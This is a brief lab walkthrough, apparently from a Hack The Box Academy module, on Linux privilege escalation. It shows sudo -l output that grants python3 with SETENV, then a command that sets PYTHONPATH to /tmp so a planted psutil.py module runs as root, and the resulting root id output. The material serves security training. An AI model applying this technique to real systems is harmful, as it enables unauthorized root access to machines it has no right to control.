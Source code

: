 ### PYTHONPATH Environment Variable

**Checking sudo permissions**
````
$ sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
````
We are allowed to run /usr/bin/python3 under the trusted permissions of sudo and are therefore allowed to set environment variables for use with this binary by the **SETENV:** flag being set.

**Privilege Escalation using PYTHONPATH Environment Variable**

Create psutil.py file in /tmp/
````
$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
uid=0(root) gid=0(root) groups=0(root)
...SNIP...
````

